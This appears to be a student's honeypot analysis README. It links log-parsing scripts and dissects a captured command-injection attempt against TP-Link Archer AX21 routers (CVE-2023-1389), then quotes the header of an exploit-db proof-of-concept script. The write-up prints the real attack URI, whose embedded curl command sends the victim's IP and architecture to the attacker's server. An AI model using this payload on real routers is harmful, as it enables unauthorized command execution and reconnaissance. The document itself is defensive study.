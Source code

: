 ## Your custom script for parsing the logs.
* [logreader.py](https://github.com/LucasFaudman/BACS-4498/blob/main/analyzer-scripts/logreader.py) (Base class for reading all logs as json objects with standardized keys)
* [webloganalyzer.py](https://github.com/LucasFaudman/BACS-4498/blob/main/analyzer-scripts/webloganalyzer.py) (Python script for analyzing webhoneypot logs)
* [getlogsbyip.sh](https://github.com/LucasFaudman/BACS-4498/blob/main/analyzer-scripts/getlogsbyip.sh) (Bash script for extracting logs by IP address)

## Malware Analysis
The full URI used in the command injection is the following:
```
 /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(curl http://2.237.57.70:81/who=54.67.87.80I$(uname -m);)
 ```
The portion of the command ``uname -m`` is used to determine the architecture of the system.  In this case, the architecture is x86_64.  
```
$(uname -m) => x86_64
```

Therefore the command attempted to be executed is the following:
```
curl http://2.237.57.70:81/who=54.67.87.80Ix86_64
```
#### Which if successful would have made an HTTP GET request to a webserver running on port 81 of the attacking system 2.234.57.70 sending the following information to the attacker:
* The IP address of the honeypot: 54.67.87.80
* The architecture of the honeypot: x86_64
* The fact that the command injection was successful

## Which vulnerability does the attack attempt to exploit?
#### Exploit: [TP-Link Archer AX21 - Unauthenticated Command Injection](https://www.exploit-db.com/exploits/51677)
#### CVE: [CVE-2023-1389](https://www.tenable.com/cve/CVE-2023-1389)
#### Mitre ATT&CK: [TA0002 - Execution](https://attack.mitre.org/tactics/TA0002/)

Proof of concept exploit script from [exploit-db](https://www.exploit-db.com/exploits/51677):
```
#!/usr/bin/python3
# 
# Exploit Title: TP-Link Archer AX21 - Unauthenticated Command Injection
# Date: 07/25/2023
# Exploit Author: Voyag3r (https://github.com/Voyag3r-Security)
# Vendor Homepage: https://www.tp-link.com/us/
# Version: TP-Link Archer AX21 (AX1800) firmware versions before 1.1.4 Build 20230219 (https://www.tenable.com/cve/CVE-2023-1389)
# Tested On: Firmware Version 2.1.5 Build 20211231 rel.73898(5553); Hardware Version Archer AX21 v2.0
# CVE: CVE-2023-1389
#
# Disclaimer: This script is intended to be used for educational purposes only.
# Do not run this against any system that you do not have permission to test. 
# The author will not be held responsible for any use or damage caused by this 
# program. 
# 
# CVE-2023-1389 is an unauthenticated command injection vulnerability in the web
# management interface of the TP-Link Archer AX21 (AX1800), specifically, in the
# *country* parameter of the *write* callback for the *country* form at the 
```